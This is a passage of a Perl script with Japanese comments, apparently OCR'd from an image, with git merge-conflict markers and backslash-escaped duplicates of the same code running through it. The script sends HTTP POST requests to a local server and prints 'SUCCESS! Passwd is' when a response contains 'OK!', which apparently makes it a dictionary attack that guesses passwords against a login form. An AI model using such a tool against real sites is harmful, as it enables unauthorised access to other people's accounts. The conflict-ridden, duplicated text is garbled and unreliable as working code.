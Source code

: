 	\#\-\- データ作成
	$data  \= "POST $path HTTP/1.1\n";
	$data .\= "Host: localhost\n";
	$data .\= "Content\-Length: $len\n";
	$data .\= "\n";
	$data .\= $body;

	\#\-\- 改行を"\r\n"に変更
	$data \=\~ s/\x0D\x0A|\x0D|\x0A/\r\n/g;

	\#\-\- 接続処理
	if((Connect($server, 'http', 'tcp', 80)) !\= 0){
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
		print "Connect ERROR!\n";
		exit;
	}

<<<<<<< HEAD
	#-- 送信
	print SOCK "$data";

	#-- レスポンスを受け取る
	while($res = <SOCK>){
		$res =~ s/\x0D\x0A|\x0D|\x0A/\n/g;
		if($res =~ /<p>OK!<\/p>/){
			print "SUCCESS! \n" . "Passwd is $line.\n";
			exit;
		}
		if($res =~ /<\/html>/) { last; }
=======
	\#\-\- 送信
	print SOCK "$data";

	\#\-\- レスポンスを受け取る
	while($res \= <SOCK>){
		$res \=\~ s/\x0D\x0A|\x0D|\x0A/\n/g;
		if($res \=\~ /<p>OK!<\/p>/){
			print "SUCCESS! \n" . "Passwd is $line.\n";
			exit;
		}
		if($res \=\~ /<\/html>/) { last; }
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
	}
	close(SOCK); select(STDOUT);
}

close(FILE);
exit;


<<<<<<< HEAD
#################################################
# Connect サブルーチン
#################################################
=======
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\# Connect サブルーチン
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
sub Connect{
